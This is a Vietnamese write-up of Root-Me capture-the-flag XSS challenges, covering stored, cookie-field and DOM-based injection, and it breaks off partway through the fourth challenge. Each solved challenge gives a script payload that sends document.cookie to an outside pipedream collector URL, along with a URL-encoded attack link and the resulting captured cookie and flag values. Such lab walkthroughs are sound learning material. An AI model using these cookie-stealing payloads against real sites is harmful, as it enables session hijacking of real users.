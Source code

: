 # Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)
* [Chall 3: XSS DOM Based - Introduction](#chall-3-xss-dom-based---introduction)
* [Chall 4: XSS DOM Based - AngularJS](#chall-4-xss-dom-based---angularjs)
* [Chall 5: XSS DOM Based - Eval](#chall-5-xss-dom-based---eval)
* [Chall 6: XSS - Reflected](#chall-6-xss---reflected)
* [Chall 7: XSS DOM Based - Filters Bypass](#chall-7-xss-dom-based---filters-bypass)
*
*


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV

## Chall 3: XSS DOM Based - Introduction

```
Steal the admin’s session cookie.

```
Source:
```
<script>
var random = Math.random() * (99);
var number = '12';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>

```

Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_01.jpg)

Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_02.jpg)

Thực hiện alert được rồi thì tấn công thôi:

>Script: '; document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie) ;//

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_03.jpg)

Gửi đường dẫn vào phần contact: http://challenge01.root-me.org/web-client/ch32/index.php?number=123%27%3B+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22.concat%28document.cookie%29+%3B%2F%2F

Ta được flag trả về:  

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_04.jpg)

> flag: rootme{XSS_D0M_BaSed_InTr0}


## Chal 4: XSS 

```
Steal the admin’s session cookie.

```
Đạp vào mắt ta là 2 phần main và contact, 1 cái thì để xss còn cái còn lại là gửi cho con bot rồi. Triển thôi:

![]()

Đầu tiên phải alert được đã, đọc source:

```
   <p id="name_encoded">Result for  abcd:</p>
        <script>
            var name = ' abcd';
            var encoded = '';
            for(let i = 0; i < name.length; i++) {
                encoded += name[i] ^ Math.floor(Math.random() * name.length);
            }
            encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
            document.getElementById('name_encoded').innerText += ' ' + encoded;
        </script>
        
 ```

Cái ta cần bypass ở đây là truyền sao cho vượt qua được giá trị var name, ví dụ thành var name = '' ; alert(1) -- . Nhưng có vẻ ' bị mã hóa rồi 
